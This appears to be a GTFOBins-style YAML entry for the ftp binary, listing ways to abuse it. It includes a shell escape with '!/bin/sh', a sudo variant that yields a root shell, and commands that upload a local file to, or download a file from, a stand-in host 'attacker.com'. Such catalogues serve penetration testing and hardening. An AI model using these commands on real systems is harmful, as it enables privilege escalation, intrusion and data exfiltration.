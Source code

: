 ```yaml
---
functions:
  execute-interactive:
  - code: |
      ftp
      !/bin/sh
  upload:
  - description: Send local file to a FTP server.
    code: |
      RHOST=attacker.com
      ftp $RHOST
      put file_to_send
  download:
  - description: Fetch a remote file from a FTP server.
    code: |
      RHOST=attacker.com
      ftp $RHOST
      get file_to_get
  sudo-enabled:
  - code: |
      sudo ftp
      !/bin/sh
---
```

